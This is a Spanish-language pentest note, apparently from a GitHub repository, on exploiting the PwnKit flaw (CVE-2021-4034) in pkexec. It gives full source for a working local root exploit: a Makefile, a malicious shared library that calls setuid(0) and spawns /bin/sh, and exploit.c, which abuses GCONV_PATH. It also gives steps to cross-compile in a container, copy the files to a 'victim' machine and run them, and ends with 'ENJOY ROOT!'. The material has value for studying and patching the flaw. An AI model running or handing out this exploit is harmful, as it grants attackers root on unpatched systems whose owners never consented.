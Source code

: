 Afecta a versiones vulnerables de pkexec, que tiene el SUID activado.
This tool is using SUID-root to run commands as another user, normally the super user (root). However, the flaw arises from the sloppy processing of command line arguments. An out-of-bounds read and write occurs in main() of pkexec, posing this security risk. 

Therefore, by setting environment variables like **GCONV_PATH** malicious code can be executed as the super user.

1. Ver localización del binario `locate pkexec`
2. Ver versión `<ruta>/pkexec --version`
3. Poner en internet la versión pkexec exploit y ver si tiene asociada el CVE aqui descrito
4. Ver os-release de la máquina víctima `cat /etc/os-release`
	Ejemplo de salida:
```os-release
NAME="Ubuntu"
VERSION="20.04.3 LTS (Focal Fossa)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 20.04.3 LTS"
VERSION_ID="20.04"
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
VERSION_CODENAME=focal
UBUNTU_CODENAME=focal
```

Estos tres archivos son necesarios para explotar la vulnerabilidad.
1.  Makefile
```Makefile
all: 
	gcc -shared -o evil.so -fPIC evil-so.c 
	gcc exploit.c -o exploit 
clean: 
	rm -r ./GCONV_PATH=. && rm -r ./evildir && rm exploit && rm evil.so
```

2.  evil-so.c
```c
#include <stdio.h> 
#include <stdlib.h> 
#include <unistd.h> 
void gconv() {} 
void gconv_init() 
{ 
	setuid(0); 
	setgid(0); 
	setgroups(0); 
	execve("/bin/sh", NULL, NULL); 
}
```

3. exploit.c
```
#include <stdio.h>
#include <stdlib.h>

#define BIN "/usr/bin/pkexec"
#define DIR "evildir"
#define EVILSO "evil"

int main()
{
    char *envp[] = {
        DIR,
        "PATH=GCONV_PATH=.",
        "SHELL=ryaagard",
        "CHARSET=ryaagard",
        NULL
    };
    char *argv[] = { NULL };

    system("mkdir GCONV_PATH=.");
    system("touch GCONV_PATH=./" DIR " && chmod 777 GCONV_PATH=./" DIR);
    system("mkdir " DIR);
    system("echo 'module\tINTERNAL\t\t\tryaagard//\t\t\t" EVILSO "\t\t\t2' > " DIR "/gconv-modules");
    system("cp " EVILSO ".so " DIR);

    execve(BIN, argv, envp);

    return 0;
}
```

Hay que compilarlos en una máquina con la misma versión de ldd que la víctima (**EN EL CASO DE QUE LA VICTIMA NO TENGA NI MAKE NI GCC**), por ello usamos un contenedor.
1. Colocamos en una carpeta, por ejemplo `work` los 3 archivos descritos arriba, el Makefile, el evil.so.c y el exploit.c.
2. Creamos un contenedor con la versión de la máquina víctima y un volumen en el directorio actual que es donde están los ficheros arriba descritos.
```bash
docker run --rm -it -v "$PWD":/work ubuntu:20.04 bash
```
3. Una vez dentro del contenedor, instalamos las dependencias para usar make y gcc:
```bash
apt-get update
apt-get install -y build-essential
```

4. Entramos en la carpeta dónde se montó el volumen /work y ahí estarán los ficheros.
5. Compilamos con `make all`
6. Comprobamos que están lo binarios `ll`
7. Los transferimos a la máquina víctima y ejecutamos `./exploit`

ENJOY ROOT!

Para más detalle:  https://ine.com/blog/exploiting-pwnkit-cve-2021-4034-techniques-and-defensive-measures